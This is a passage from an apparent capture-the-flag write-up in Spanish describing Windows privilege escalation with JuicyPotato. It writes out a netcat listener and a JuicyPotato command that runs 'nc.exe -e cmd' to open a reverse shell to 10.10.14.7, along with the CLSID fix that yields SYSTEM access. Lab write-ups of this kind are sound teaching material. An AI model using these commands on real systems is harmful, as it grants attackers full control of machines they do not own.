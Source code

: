 Nos ponemos en escucha por el puerto 443

```bash
rlwrap nc -nlvp 443
```

Nos connectamos con el servicio nc con el JuicyPotato.

```bash
./JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c .\nc.exe -e cmd 10.10.14.7 443"
```

Aqui nos sale une error 10038. Esto suele passar cuando el CLSID no es el correcto. Como savemos con el systeminfo
que estamos en una maquina Windows10 Enterprise, podemos buscar el CLSID correcto en [Interesting CLSID](https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md)
encontramos el CLSID que corresponde y con el parametro 
```bash
 -c 
```


```bash
./JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c .\nc.exe -e cmd 10.10.14.7 443" -c "{5B3E6773-3A99-4A3D-8096-7765DD11785C}"
```

La reverse shell nos a functionnado y con 
```bash
 whoami 
```
 vemos que ya somos nt authority\system y podemos ver la flag.


